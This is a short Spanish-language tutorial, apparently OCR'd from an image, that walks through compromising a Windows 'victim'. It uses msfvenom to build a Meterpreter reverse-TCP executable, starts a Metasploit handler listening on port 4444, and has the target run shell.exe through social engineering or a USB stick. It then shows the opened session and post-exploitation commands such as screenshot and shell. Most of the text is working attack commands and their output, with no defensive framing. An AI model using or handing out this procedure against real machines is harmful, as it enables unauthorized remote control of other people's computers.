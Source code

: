 - IP atacante (tu máquina con Metasploit): `192.168.1.100`
- IP víctima: `192.168.1.105`
- Crearás un payload para que la víctima lo ejecute.

---

#### Paso 1: Crear el payload

En tu terminal:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

Esto genera un ejecutable `shell.exe` que al ser ejecutado enviará una conexión de vuelta.

---

#### Paso 2: Configurar el Connection Handler

```bash
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

Queda "escuchando" en espera de la víctima.

---

#### Paso 3: Entregar el payload

Por ingeniería social o USB, haces que la víctima ejecute `shell.exe`.

---

#### Resultado

Cuando la víctima ejecuta el archivo, verás en tu terminal:

```
[*] Sending stage (175174 bytes) to 192.168.1.105
[*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.105:49156)
```

¡Tienes acceso a la máquina víctima! 🎯 Puedes ahora interactuar con el sistema:

```bash
meterpreter > sysinfo
meterpreter > screenshot
meterpreter > shell
```

---
